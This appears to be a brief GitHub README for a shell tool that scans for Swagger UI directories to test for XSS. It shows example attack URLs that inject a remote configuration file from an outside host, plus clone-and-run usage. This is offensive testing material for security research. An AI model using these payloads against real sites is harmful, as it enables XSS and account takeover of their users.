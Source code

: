 #### swAPI-XSS to find swagger api directories and test manually for potential XSS vulnerability

##### Example:
#####  https://www.target.com/swagger-ui/index.html?configUrl=https://jumpy-floor.surge.sh/test.json
##### or
##### https://www.target.com/swagger-ui/index.html?url=https://jumpy-floor.surge.sh/test.yaml

[Click here to read about the swagger API XSS](https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/)


Usage:

```
git clone https://github.com/Nightmre/swAPI-XSS.git
cd swAPI-XSS
chmod +x swxss.sh
./swxss.sh list.txt
```
